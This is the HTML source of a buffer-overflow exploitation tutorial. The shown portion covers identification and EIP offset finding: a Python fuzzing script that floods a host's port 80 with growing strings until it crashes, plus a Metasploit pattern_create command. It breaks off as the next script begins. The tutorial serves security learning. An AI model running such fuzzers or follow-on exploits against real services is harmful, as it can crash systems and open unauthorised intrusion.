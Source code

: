 
<!DOCTYPE html>
<html>
    <head>
        <title>Buffers overflow</title>
        <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
        <link rel="stylesheet" type="text/css" href="/assets/main.css">
        <link rel="icon" type="image/png" sizes="32x32" href="/assets/favicon.png">
    </head>
   
    <body>
        <fieldset class='box'>
            <legend>Buffers overflow ToC</legend>
                <ul>
                    <li><span><a href='#Identification'>Identification</a></span></li>
                    <li><span><a href='#Finding EIP'>Finding EIP</a></span></li>
                    <li><span><a href='#Finding a JMP ESP'>Finding a JMP ESP</a></span></li>
                    <li><span><a href='#Finding bad characters'>Finding bad characters</a></span></li>
                    <li><span><a href='#Injecting a shellcode'>Injecting a shellcode</a></span></li>
                    <li><span><a href='#MsfPayloads'>MsfPayloads</a></span></li>
                    <li><span><a href='#Countermeasures'>Countermeasures</a></span></li>
                </ul>
        </fieldset>
        <fieldset class='box'>
            <a name='Identification'></a>
            <legend>Identification</legend>
                <ul>
                    <li><span>First step is to identify the vulnerability. You can debug the app and fuzz it with larger strings and identify the approximate length that causes the crash. We can script it as follows:</span></li>
                <pre><code>import socket

# Create an array of buffers, from 10 to 2000, with increments of 20.
counter = 100
fuzz_strings = ["A"]

while len(fuzz_strings) &lt;= 30:
    fuzz_strings.append("A" * counter)
    counter = counter + 200

for fuzz in fuzz_strings:
    print "Fuzzing with %s bytes" % len(fuzz)
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    connect = s.connect(('192.168.0.9', 80))
    s.send('GET ' + fuzz + '\r\n\r\n' )
    print s.recv(1024)
    s.close()</code></pre>
                    <li><span>We run the script and find that the app crashes when sending a string <strong>2700</strong> long, so we know that the buffer is somewhere between <strong>2500</strong> and <strong>2700</strong>.</span></li>
                </ul>
        </fieldset>
        <fieldset class='box'>
            <a name='Finding EIP'></a>
            <legend>Finding EIP</legend>
                <ul>
                    <li><span>Second step is to find the exact size of the buffer before the EIP register. We can achieve this by generating a string with unique sequence of characters and use the debugger to find the value that overwrites the EIP register. We create the string as follows:</span></li>
                <pre><code>$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700</code></pre>
                    <li><span>We add the string to our script:</span></li>
                <pre><code>import socket

